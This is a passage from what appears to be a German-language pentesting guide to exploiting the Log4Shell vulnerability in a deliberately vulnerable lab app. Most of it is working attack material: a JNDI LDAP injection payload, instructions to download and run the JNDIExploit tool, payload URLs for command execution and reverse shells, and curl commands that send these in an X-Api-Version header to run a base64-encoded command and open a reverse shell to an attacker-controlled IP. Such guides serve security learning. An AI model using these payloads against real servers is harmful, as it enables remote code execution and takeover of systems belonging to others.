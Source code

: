 
Lösen Sie die Ausführung der Exploit-Klasse auf dem anfälligen Webserver aus, indem Sie eine Payload senden, die wie folgt aussieht:
```bash
${jndi:ldap://<LDAP_IP>:1389/Exploit}
```
**Hinweis:** Dieser Exploit basiert auf der Konfiguration von Java, die das Laden von Remote-Codebasen über LDAP erlaubt. Wenn dies nicht zulässig ist, ziehen Sie in Betracht, eine vertrauenswürdige Klasse für die Ausführung beliebigen Codes auszunutzen.

### RCE - **JNDIExploit**

{% hint style="info" %}
Beachten Sie, dass der Autor aus irgendeinem Grund dieses Projekt nach der Entdeckung von log4shell von GitHub entfernt hat. Sie können eine zwischengespeicherte Version unter [https://web.archive.org/web/20211210224333/https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2](https://web.archive.org/web/20211210224333/https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2) finden, aber wenn Sie die Entscheidung des Autors respektieren möchten, verwenden Sie eine andere Methode, um diese Schwachstelle auszunutzen.

Darüber hinaus können Sie den Quellcode nicht in der Wayback Machine finden, also analysieren Sie entweder den Quellcode oder führen Sie die JAR-Datei aus, in dem Wissen, dass Sie nicht wissen, was Sie ausführen.
{% endhint %}

Für dieses Beispiel können Sie einfach diesen **anfälligen Webserver für log4shell** auf Port 8080 ausführen: [https://github.com/christophetd/log4shell-vulnerable-app](https://github.com/christophetd/log4shell-vulnerable-app) (_im README finden Sie, wie man ihn ausführt_). Diese anfällige App protokolliert mit einer anfälligen Version von log4shell den Inhalt des HTTP-Anforderungsheaders _X-Api-Version_.

Dann können Sie die **JNDIExploit** JAR-Datei herunterladen und sie mit folgendem Befehl ausführen:
```bash
wget https://web.archive.org/web/20211210224333/https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip
unzip JNDIExploit.v1.2.zip
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 172.17.0.1 -p 8888 # Use your private IP address and a port where the victim will be able to access
```
Nach nur wenigen Minuten des Lesens des Codes in _com.feihong.ldap.LdapServer_ und _com.feihong.ldap.HTTPServer_ kann man sehen, wie die **LDAP- und HTTP-Server erstellt werden**. Der LDAP-Server versteht, welches Payload bereitgestellt werden muss, und leitet das Opfer an den HTTP-Server weiter, der den Exploit bereitstellt.\
In _com.feihong.ldap.gadgets_ finden Sie **einige spezifische Gadgets**, die verwendet werden können, um die gewünschte Aktion auszuführen (potenziell beliebigen Code auszuführen). Und in _com.feihong.ldap.template_ können Sie die verschiedenen Template-Klassen sehen, die **die Exploits generieren**.

Sie können alle verfügbaren Exploits mit **`java -jar JNDIExploit-1.2-SNAPSHOT.jar -u`** sehen. Einige nützliche sind:
```bash
ldap://null:1389/Basic/Dnslog/[domain]
ldap://null:1389/Basic/Command/Base64/[base64_encoded_cmd]
ldap://null:1389/Basic/ReverseShell/[ip]/[port]
# But there are a lot more
```
So, in unserem Beispiel haben wir bereits die anfällige Docker-Anwendung am Laufen. Um sie anzugreifen:
```bash
# Create a file inside of th vulnerable host:
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://172.17.0.1:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'

# Get a reverse shell (only unix)
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://172.17.0.1:1389/Basic/ReverseShell/172.17.0.1/4444}'
```